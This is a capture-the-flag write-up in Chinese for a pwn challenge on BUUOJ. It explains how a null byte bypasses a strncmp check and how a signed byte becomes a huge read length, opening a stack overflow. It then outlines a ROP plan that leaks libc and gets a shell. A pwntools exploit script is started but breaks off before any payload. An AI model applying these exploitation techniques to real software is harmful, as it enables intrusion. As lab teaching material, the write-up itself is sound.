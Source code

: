 - Category: Pwn
- Points: 1

## Write-up

`strlen` 检测到 `\x00` 就结束，所以先通过 `\x00` 绕过 `strncmp`。之后将 `buf[7]` 处的一字节有符号整数转换为无符号数返回，如果这里是 `-1` 就会返回很大的数。

```c ins={13-14}
int __cdecl sub_804871F(int buffer)
{
  size_t len; // eax
  char s[32]; // [esp+Ch] [ebp-4Ch] BYREF
  char buf[32]; // [esp+2Ch] [ebp-2Ch] BYREF
  ssize_t v5; // [esp+4Ch] [ebp-Ch]

  memset(s, 0, sizeof(s));
  memset(buf, 0, sizeof(buf));
  sprintf(s, "%ld", buffer);
  v5 = read(0, buf, 32u);
  buf[v5 - 1] = 0;
  len = strlen(buf);
  if ( strncmp(buf, s, len) )
    exit(0);
  write(1, "Correct\n", 8u);
  return (unsigned __int8)buf[7];
}
```

`sub_80487D0` 将上一个函数的返回值作为参数，如果等于 `127` 就执行第一个 `read`，否则执行第二个 `read`。由于我们在 `buf[7]` 处保存 `-1`，会返回 `0xffffffff`，所以我们获得了一个很大的 BOF 空间。

```c del={8}
ssize_t __cdecl sub_80487D0(char a1)
{
  _BYTE buf[231]; // [esp+11h] [ebp-E7h] BYREF

  if ( a1 == 127 )
    return read(0, buf, 200u);
  else
    return read(0, buf, a1);
}
```

思路是绕过 `sub_804871F` 的 `strncmp` 后，拿到一个很大的栈溢出，通过 `sub_80487D0` 的 `read(0, buf, a1)` 构造 ROP，利用 `puts` 泄漏 libc，`puts` 返回到 `main` 触发二次输入，同理先绕检测，然后构造 getshell 的 ROP Chain.

## Exploit

```python
#!/usr/bin/env python3

from pwn import ELF, args, context, flat, p32, process, remote, u32

FILE = "./challenge"
HOST, PORT = "node5.buuoj.cn", 26812

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary
libc = ELF("./libc-2.23.so")


def launch():
    if args.L:
        target = process(FILE)
```